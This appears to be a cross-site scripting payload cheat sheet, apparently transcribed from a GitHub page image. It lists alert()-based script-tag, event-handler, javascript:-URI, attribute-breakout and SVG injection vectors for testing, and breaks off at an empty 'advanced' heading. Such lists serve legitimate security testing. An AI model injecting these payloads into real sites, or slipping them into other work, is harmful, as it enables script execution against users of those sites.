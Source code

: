 
### **1. Basic XSS Payloads**
These are simple payloads typically used for testing.

```html
<script>alert('XSS')</script>
<svg/onload=alert('XSS')>
<img src=x onerror=alert('XSS')>
<iframe src="javascript:alert('XSS');"></iframe>
<math><mtext><title>1</title><mtext><style><img src=x onerror=alert(1)> // MathML vector
<marquee onstart=alert('XSS')>Test</marquee>
<details open ontoggle=alert('XSS')>Test</details>
<isindex type=image src=1 onerror=alert('XSS')>
```

### **2. Event Handler-Based Payloads**
XSS vectors relying on event attributes.

```html
<img src="x" onerror="alert('XSS')">
<body onload=alert('XSS')>
<input type="button" value="Click" onclick="alert('XSS')">
<div onmouseover="alert('XSS')">Mouse over me</div>
<a href="javascript:alert('XSS')">Click me</a>
```

### **3. JavaScript Protocol Injection**
Injecting via JavaScript URI.

```html
<a href="javascript:alert('XSS')">Click me</a>
<iframe src="javascript:alert('XSS');"></iframe>
<object data="javascript:alert('XSS');"></object>
```

### **4. HTML Attribute Injection**
Payloads placed within an HTML tag’s attribute to break out of the context.

```html
<input type="text" value="XSS" onfocus="alert('XSS')" autofocus>
<form action="test" onsubmit="alert('XSS')"><input type="submit"></form>
<textarea autofocus onfocus="alert('XSS')">Text</textarea>
```

### **5. SVG and Vector Image Payloads**
Leverage vector image formats such as SVG for XSS.

```html
<svg/onload=alert('XSS')>
<svg><desc><![CDATA[<script>alert('XSS')</script>]]></desc></svg>
<svg><foreignObject><body xmlns="http://www.w3.org/1999/xhtml" onload="alert('XSS')"></body></foreignObject></svg>
```

### **6. Advanced Injection Techniques**
Involving bypassing filters or making injections harder to detect.
